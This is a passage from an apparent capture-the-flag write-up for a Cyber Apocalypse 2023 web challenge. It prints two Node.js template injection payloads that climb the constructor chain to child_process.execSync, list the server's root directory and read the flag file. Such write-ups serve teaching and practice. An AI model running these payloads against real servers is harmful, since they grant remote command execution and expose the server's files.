 - Now we need to the flag, with some navigating in the server paths, I found the flag file in the root directory path.
```
node{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('ls /').toString()")()}}
```

![paddle_node.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/paddle_node.png)

```
flag{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
```

- Finally, we got the flag.

![paddle_flag.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/paddle_flag.png)